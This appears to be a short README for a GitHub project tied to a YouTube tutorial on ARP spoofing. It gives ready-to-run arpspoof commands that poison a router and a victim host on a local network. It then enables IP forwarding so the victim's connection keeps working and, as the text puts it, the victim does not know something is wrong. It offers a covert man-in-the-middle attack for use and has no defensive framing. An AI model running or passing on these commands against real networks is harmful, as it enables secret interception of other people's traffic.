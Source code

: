 Youtube Link PART1 : https://youtu.be/NCzyBNfsDJU

ARP Spoofing is One of The Best Wireless Attack on Local Network . 

I AM ROUTER:

arpspoof -i eth0 -t 192.168.0.1 192.168.0.103

I AM Victim :

arpspoof -i eth0 -t 192.168.0.103 192.168.0.1

ENABLING PORT FORWARDING :

If you miss this step then the Victim Internet Will be Goes Off and He Know That Something is Wrong With Wireless Network

echo '1' > /proc/sys/net/ipv4/ip_forward

Check the Project Here 

https://repl.it/@AdilShehzad7/ARP-Spoofing
